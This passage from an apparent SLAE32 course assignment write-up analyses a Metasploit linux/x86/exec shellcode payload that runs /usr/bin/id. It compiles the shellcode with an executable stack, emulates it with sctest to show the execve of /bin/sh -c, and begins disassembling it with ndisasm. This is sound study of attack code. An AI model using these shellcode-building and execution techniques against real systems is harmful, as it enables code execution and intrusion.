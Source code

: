 The shellcode is compiled with the `-z execstack` flag to make the stack executable then tested to make sure it works:

```
slemire@slae:~/slae32/assignment5/1_exec$ gcc -z execstack -o shellcode shellcode.c
slemire@slae:~/slae32/assignment5/1_exec$ ./shellcode
Size: 48 bytes.
uid=1000(slemire) gid=1000(slemire) groups=1000(slemire),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

The `sctest` program from `libemu2` can be used to emulate the specific instructions in the shellcode and help understand how the shellcode works. As show in the output below, we can clearly see that the shellcode executes the `execve` function, using `/bin/sh` as the program name. The command `/usr/bin/id` that was configured in the payload through msfvenom is executed using the `-c` command flag of `/bin/sh`.

```
slemire@slae:~/slae32/assignment5/1_exec$ msfvenom -p linux/x86/exec CMD=/usr/bin/id | sctest -v -Ss 100000
verbose = 1
[...]
execve
int execve (const char *dateiname=00416fc0={/bin/sh}, const char * argv[], const char *envp[]);
cpu error error accessing 0x00000004 not mapped

stepcount 15
int execve (
     const char * dateiname = 0x00416fc0 => 
           = "/bin/sh";
     const char * argv[] = [
           = 0x00416fb0 => 
               = 0x00416fc0 => 
                   = "/bin/sh";
           = 0x00416fb4 => 
               = 0x00416fc8 => 
                   = "-c";
           = 0x00416fb8 => 
               = 0x0041701d => 
                   = "/usr/bin/id";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```

`ndisasm` is used to decode the instructions from the shellcode:

```
slemire@slae:~/slae32/assignment5/1_exec$ msfvenom -p linux/x86/exec CMD=/usr/bin/id | ndisasm -b 32 -
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 47 bytes

00000000  6A0B              push byte +0xb
00000002  58                pop eax
00000003  99                cdq
00000004  52                push edx
00000005  66682D63          push word 0x632d
00000009  89E7              mov edi,esp
0000000B  682F736800        push dword 0x68732f
00000010  682F62696E        push dword 0x6e69622f
00000015  89E3              mov ebx,esp
```